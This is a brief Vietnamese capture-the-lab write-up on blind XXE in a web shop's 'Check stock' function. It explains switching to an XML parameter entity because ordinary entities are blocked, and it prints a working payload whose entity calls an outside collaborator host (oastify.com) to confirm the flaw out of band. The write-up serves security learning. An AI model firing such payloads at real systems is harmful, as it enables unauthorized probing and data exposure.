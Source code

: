 ![](img/10.png)
### Giải quyết
- Vẫn là Blind XXE tồn tại trong chức năng `Check stock` của web. Tuy nhiên nó đã được tăng cường bảo mật cho XML parser nên chiêu trò Blind XXE với các entity thông thường không còn tác dụng
![](img/11.png)
- Vì thế ở lab này chuyển qua sử dụng XML parameter entity (một loại XML entity đặc biệt có thể được tham chiếu từ một vị trí nào đó của DTD)
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://9z9uyx4cncfhtbxqhozur8ct5kbdz2.oastify.com"> %xxe; ] >
```
![](img/12.png)
###### Solved!